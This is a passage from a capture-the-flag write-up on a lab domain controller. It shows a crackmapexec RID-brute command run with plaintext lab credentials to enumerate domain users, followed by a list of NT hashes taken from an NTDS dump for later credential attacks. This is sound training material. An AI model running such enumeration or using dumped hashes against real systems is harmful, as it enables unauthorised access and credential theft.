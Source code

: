 We can use the following to filter out the NT hashes

![](attachments/20240515135927.png)

Rather than using the previous userlist we obtained earlier, we can extract a much smaller list of valid users using crackmapexec and grepping for `SidTypeUser` to extract only users

![](attachments/20240515140450.png)

We don't need to add Guest, krbtgt and HAVEN-DC$

```shell
crackmapexec smb raz0rblack.thm -u twilliams -p roastpotatoes --rid-brute | grep SidTypeUser
```

Then edit your file with just these users present

userlist.txt

```
lvetrova
administrator
xyan1d3
sbradley
twilliams
```

ntds.txt

```
1afedc472d0fdfe07cd075d36804efd0
31d6cfe0d16ae931b73c59d7e0c089c0
4ea59b8f64c94ec66ddcfc4e6e5899f9
703a365974d7c3eeb80e11dd27fb0cb3
da3542420eff7cfab8305a68b7da7043
c378739d7c136c1281d06183665702ea
9f73aaafc3b6d62acdbb0b426f302f9e
6a5bad944868142e65ad3049a393e587
b112332330f11267486d21549d326bd5
f9b8c9864aa7bc53405ed45b48ef19ef
efe1e7cd1799ef6dff3c85b36239ef17
4104dd2ede9c241eb18bda7470310d91
d1d85bdc244f5d7185bcff43eea3ab53
361e1f12cb92caf151fc925eaa1b50f4
[..]
```
